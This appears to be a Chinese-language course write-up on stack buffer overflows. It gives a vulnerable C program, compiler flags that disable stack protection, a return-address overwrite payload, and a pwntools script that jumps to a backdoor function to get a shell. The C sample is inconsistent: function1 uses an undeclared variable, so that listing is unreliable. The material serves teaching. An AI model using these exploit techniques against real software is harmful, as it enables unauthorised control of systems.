


## 概述


软件漏洞分析课程的一次作业，利用了栈内存的缓冲区溢出，覆盖了返回地址，从而达到劫持控制流的目的。如果希望能具体了解一下图中 c 函数调用的实现，可以看一下 B 站上陈渝教授的这个视频。

<iframe style="margin-left: 50%;transform: translateX(-50%);width: 50vw;height: 40vw;" src="//player.bilibili.com/player.html?aid=77228694&bvid=BV1mJ411X73U&cid=132102373&page=5" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true"> </iframe>
## EXP1

```c
#include <stdio.h>
#include <string.h>

void function2()
{
  printf("Executed chagned\n");
}

void function1()
{
  char buffer[5];
  strcpy(buffer,str);
}

void main(int argc, char *argv[])
{
  function1(argv[1]);
  printf("Executed normally\n");
}
```

使用`gdb`进行调试，`strcpy`函数可以被利用引起缓冲区溢出，目前的问题时需要多长的字符串，以及需要将`function1`栈帧的返回地址覆盖为什么

环境

> ubuntu 16.04
>
> gcc 5.4.0
>
> gdb 7.11.1



关闭堆栈保护机制，使用`gcc`编译

```bash
gcc -g main.c -m32 -o main32 -z execstack -fno-stack-protector
```


可以得出`ebp`与`&buffer`相距 13 个字节，同时返回地址占用 4 个字节，`function2`的地址为`0x0804845B`。由于采用的是`小端存储`，因此需要将目标函数地址按字节倒序写入。构造出 payload`AAAAAAAAAAAAAAAAA\x5B\x84\x04\x08`


成功调用了`function2`，同理地址也可以被改成其他的函数地址。

## EXP2

已知一个[二进制文件](https://raw.github.com/ChenKS12138/ChenKS12138.github.io/source-code/assets/stack-tutorial)，通过 ida 静态调试。


vulnerable_function 中的 buffer 只需要 1 个字节，但是第五行的 read 函数可以输入 256 个字节，这里可能存在着栈溢出。根据第三行的注释推测，`&buffer`距离`ebp`位 0x30 个字节，猜测我们需要构造的 payload 为 52 字节的字符串再加上目标函数的地址，即`backdoor`函数的地址。

```python
from pwn import *
p=process("./stack");

ret_addr=0x0804846B

payload = "a"*52+p32(ret_addr)

p.sendline(payload)
p.interactive()
p.close()
```



成功拿到 shell
